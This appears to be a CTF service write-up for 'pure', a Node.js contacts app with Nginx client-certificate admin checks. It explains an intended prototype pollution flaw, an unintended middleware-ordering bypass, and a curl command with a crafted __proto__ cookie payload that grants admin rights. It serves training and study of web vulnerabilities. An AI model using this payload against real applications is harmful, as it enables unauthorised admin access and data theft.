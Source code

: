 # pure

## Service Description
`pure` is a service to create/edit contacts. It is written in JavaScript and uses MongoDB as a data storage and Nginx as a reverse proxy:

![schema](schema.png)

The user interface allows to:

1. Register a new user:

   ![Example of registration screen](register.png)

2. Create a contact:
   ![Example of contact creation screen](create_contact.png)

3. Change theme to dark mode:
   ![Example of dark mode screen](dark_mode.png)

Also there is an admin interface that allows to view contacts of all users:
![Example of the admin interface](admin.png)

The access to the admin pages is protected using client certificate authentication. This protection is implemented with Nginx:


    server {
        ...
        ssl_client_certificate /etc/ssl/certs/ca.crt;
        ssl_verify_client optional;

        location / {
            ...
            proxy_set_header VERIFIED $ssl_client_verify;
            ...
        }
    }


Nginx checks the client certificate and set `VERIFIED` HTTP header. The application uses this header to set `req.session.isAdmin` property:


    if (req.headers && req.headers['verified'] == 'SUCCESS' && req.session) {
        req.session.isAdmin = true;
    } else {
        if (req.session && req.session.isAdmin) {
            delete req.session.isAdmin;
        }
    }


## Vulnerability Description

To steal the flags, teams should somehow set `req.session.isAdmin` property to `true` in the Node.JS application.

### Intended Way to Exploit
Property `req.session.isAdmin` can be set to `true` by exploiting the [Prototype Pollution](https://portswigger.net/web-security/prototype-pollution) vulnerability.

`cookieSettingsHandler` in [web/middlewares.js](../../services/pure/web/middlewares.js) allows to set arbitrary property name and an attacker could send a specially crafted `settings` cookie containing JSON-encode object `j:["__proto__",":",{"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}}]`. This object will be decoded by the `cookieParser()`, and the following assignment will be executed:

```
req.session["__proto__"] = {"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}};
```

### Unintended Way to Exploit

Unfortunately, the following middlewares were added in wrong order:

```
app.use(middlewares.adminHandler);
app.use(middlewares.cookieSettingsHandler);
```

Because of this, an attacker could exploit the application much easier. The following `settings` cookie could be used to set `req.session.isAdmin` property to `true`: `settings=isAdmin:1`


## Exploit

To exploit the vulnerability an attacker could send specially crafted `settings` cookie to the application:

    :::bash
    curl -k https://<HOST> --cookie 'connect.sid=<SESSION COOKIE>' --cookie \
    'settings=j:["__proto__",":",{"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}}]'

You can find the full exploit [here](../../sploits/pure/sploit.py).
